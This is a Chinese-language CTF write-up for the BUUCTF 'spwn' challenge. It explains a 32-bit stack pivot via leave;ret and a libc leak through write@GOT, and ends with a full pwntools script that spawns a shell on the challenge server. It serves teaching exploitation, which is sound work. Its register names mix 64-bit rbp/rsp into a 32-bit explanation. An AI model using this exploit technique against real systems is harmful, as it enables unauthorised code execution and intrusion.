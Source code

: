### Write 泄露 libc 结合 32 位栈劫持

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d8f95e88c538a9b5c01e7b.png)

先输出 m1 的内容

然后读取输入到 bss 段中

然后输出 m2 的内容

然后读取输入到缓冲区中

![](https://pic1.imgdb.cn/item/67d908df88c538a9b5c0226f.png)

打印的两端内容如下

![](https://pic1.imgdb.cn/item/67d909c388c538a9b5c022c9.png)

但是溢出的长度太小，没办法构造很长的 ROP

可以尝试栈迁移到 s 处

先泄露 libc

```python
payload = p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

r.recvuntil("What is your name?")
r.send(payload)
```

此时 s 处布局如下

![](https://pic1.imgdb.cn/item/67d90b0788c538a9b5c02333.png)

找下 `leave;ret` 指令

![](https://pic1.imgdb.cn/item/67d90bc188c538a9b5c0237a.png)

我们在给 buf 参数赋值的时候，溢出后将 rbp 覆写成 `s-4` 的地址，函数返回地址覆写成 `leave；ret` 指令的地址

```python
payload1 = b'a' * 0x18 + p32(s - 4) + p32(leave_ret)
```

![](https://pic1.imgdb.cn/item/67d90ca588c538a9b5c023f1.png)

首先程序正常结束了，去调用程序本身的 `leave；ret` 来还原现场

根据我们对栈的布局，`mov rsp，rbp` -> 将 rsp 指向了 rbp，栈变成了这个样子

![](https://pic1.imgdb.cn/item/67d90d5d88c538a9b5c0242a.png)

`pop rbp` -> rbp 寄存器被我们设置成了参数 s-4 的地址，指向了我们布置好的栈上方

这边 -4 是因为我们第二次执行 `pop rbp` 给 rbp 赋值的时候，会将 `rsp+4`

如果不减去 4，rsp 就在程序一开始的时候指向的不是栈顶，而是栈顶+4的位置

我们之后读取数据会丢失一开始的 4 字节，所以需要一开始的时候将指针往上抬 4 字节，栈变成了这个样子

![](https://pic1.imgdb.cn/item/67d90dcd88c538a9b5c02460.png)

再次执行 `leave；ret` 指令

`mov rsp,rbp` -> rsp 指向了参数 `s-4` 的位置，栈布局现在是这样

![](https://pic1.imgdb.cn/item/67d90e4088c538a9b5c0246f.png)

`pop rbp` -> 弹出栈顶的值给 rbp，之后栈变成了这样，我们成功将 esp 指针劫持到了我们布置好的栈上

![](https://pic1.imgdb.cn/item/67d90e8088c538a9b5c02476.png)

接下来它就会去执行我们布置好的泄露 libc 的步骤

我们去接收它输出的 write 函数地址，就知道了 libc 版本

接下来就能去构造 `system('/bin/sh')` 了

接下来在重复一下上述的控制流程，就能拿到 shell 了

```python
from pwn import *
from LibcSearcher import *

# p = process('./spwn')
r = remote('node5.buuoj.cn',28433)

elf = ELF('./spwn')
write_plt = elf.plt['write']
write_got = elf.got['write']
main = 0x8048513
s = 0x0804A300
leave_ret = 0x08048408

payload = p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

r.recvuntil("What is your name?")
r.send(payload)

payload1 = b'a' * 0x18 + p32(s-4) + p32(leave_ret)

r.recvuntil("What do you want to say?")
r.send(payload1)

write_addr = u32(r.recv(4))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
system = libc_base + libc.dump('system')
sh = libc_base + libc.dump('str_bin_sh')

payload = p32(system) + p32(0) + p32(sh)

r.recvuntil("name?")
r.sendline(payload)
r.recvuntil("say?")
r.sendline(payload1)
r.interactive()
```

